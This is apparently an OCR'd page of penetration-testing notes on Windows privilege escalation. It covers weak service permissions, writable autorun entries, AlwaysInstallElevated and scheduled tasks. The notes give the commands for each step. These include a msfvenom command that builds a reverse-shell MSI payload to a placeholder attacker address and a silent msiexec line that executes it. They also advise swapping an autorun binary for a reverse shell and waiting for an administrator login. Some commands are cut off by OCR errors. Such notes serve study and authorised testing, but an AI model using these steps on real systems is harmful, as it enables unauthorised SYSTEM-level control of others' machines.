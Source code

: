 ## Windows XP SP0/SP1 Privilege Escalation to System

[[https://sohvaxus.github.io/content/winxp-sp1-privesc.html]{.underline}](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)

Always check permission of all services using command below :

*accesschk.exe /accepteula -uwcqv \"Authenticated Users\" \**

Then check service running on higher privilege or not with command below
:

Sc qc \<service_name\>

## 

## DLL Hijacking

## Autorun

#For checking, it will display some information with file-location

reg query HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run

reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run

#Check the location is writable

accesschk.exe \\accepteula -wvu \"\<path\>\" #returns FILE_ALL_ACCESS

#Replace the executable with the reverseshell and we need to wait till
Admin logins,

## AlwaysInstallElevated

#For checking, it should return 1 or Ox1

reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v
AlwaysInstallElevated

reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v
AlwaysInstallElevated

#Creating a reverseshell in msi format

msfvenom -p windows/x64/shell_reverse_tcp LHOST=\<IP\> LPORT=\<port\>
\--platform windows -f m

#Execute and get shell

msiexec /quiet /qn /i reverse.msi

## Schedules Tasks

schtasks /query /fo LIST /v #Displays list of scheduled tasks, Pickup
any interesting one
